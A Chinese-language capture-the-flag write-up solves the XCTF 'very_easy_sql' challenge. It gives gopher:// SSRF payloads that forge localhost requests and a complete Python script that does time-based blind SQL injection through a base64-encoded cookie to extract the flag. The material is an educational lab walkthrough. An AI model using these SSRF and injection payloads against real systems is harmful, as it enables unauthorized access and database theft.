

# very_easy_sql

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=054646ec-17ad-11ed-abf3-fa163e4fa609)

《very_easy》

进来直接懵逼，根本没找到注入点，只有一句提示告诉我们不是内部用户。



看下源代码，这个表单根本就没提交，这是静态的。不过注释里有一句use.php（我之前还以为要把表单提交到use.php……），去看看。

然后是一个要求输入url进行curl的页面。[大佬](https://blog.csdn.net/m0_48780534/article/details/126309908)告诉我们这可能是ssrf的提示。随便提交一个url发现有get参数url。

- ?url=127.0.0.1/use.php

把上面这个内容输入进去就得到了两个相同页面，而且是可以无限套娃的。这就是ssrf的特征之一。ssrf中常用的一个协议为[gopher](https://zhuanlan.zhihu.com/p/112055947)，因为普通的www网址是无法发送自定义post和get等请求的（也许吧，我又是猜的）。

- ?url=gopher://127.0.0.1:80/_POST%2520/index.php%2520HTTP/1.1%250D%250AHost%253A%2520127.0.0.1%253A80%250D%250AUser-Agent%253A%2520curl/7.43.0%250D%250AAccept%253A%2520%252A/%252A%250D%250AContent-Type%253A%2520application/x-www-form-urlencoded%250D%250AContent-Length%253A%252024%250D%250Auname%253Dadmin%2526passwd%253Dadmin%250D%250A

构建一个payload。127.0.0.1:80就是实际的包内容，不过要经过url编码。开始有一个_符号是因为gopher会吃掉第一个符号，也就是第一个符号是无法接收到的。也可以换成任意其他字符，不过_好像最常用。%0d%0a表示回车和换行，也用来表示包的结束。name和password的值只能猜，也不知道为啥，不过弱密码用户名总是admin，密码123456，admin等等都可以试试。

上面那个大佬通过增加xff热referer头得到了admin的cookie，但是我的bp总是发送xff时就卡。直接放大佬的exp。

```python
import requests
import time
import base64
url="http://61.147.171.105:51314//use.php?url="
flag=""
for pos in range(1,50):
    for i in range(33,127):
        #poc="') union select 1,2,if(1=1,sleep(5),1) # "

        #security
        #poc="') union select 1,2,if(ascii( substr((database()),"+str(pos)+",1) )="+str(i)+",sleep(2),1) # "

        #flag
        #poc="') union select 1,2,if(ascii( substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),"+str(pos)+",1) )="+str(i)+",sleep(2),1) # "
        
        poc="') union select 1,2,if(ascii( substr((select * from flag),"+str(pos)+",1) )="+str(i)+",sleep(2),1) # "
        
        bs = str(base64.b64encode(poc.encode("utf-8")), "utf-8")
        final_poc="gopher://127.0.0.1:80/_GET%20%2findex.php%20HTTP%2f1.1%250d%250aHost%3A%20localhost%3A80%250d%250aConnection%3A%20close%250d%250aContent-Type%3A%20application%2fx-www-form-urlencoded%250d%250aCookie%3A%20this%5Fis%5Fyour%5Fcookie%3D"+bs+"%3B%250d%250a"
        t1=time.time()
        res=requests.get(url+final_poc)
        t2=time.time()
        if(t2-t1>2):
            flag+=chr(i)
            print(flag)
            break
print(flag)
```

注释部分是大佬添加的爆库名、表名的内容，剩下的是官方exp。sql找到闭合点后使用时间盲注，因为没有回显。这个exp需要比较长的时间，如果暂时出不来不要担心。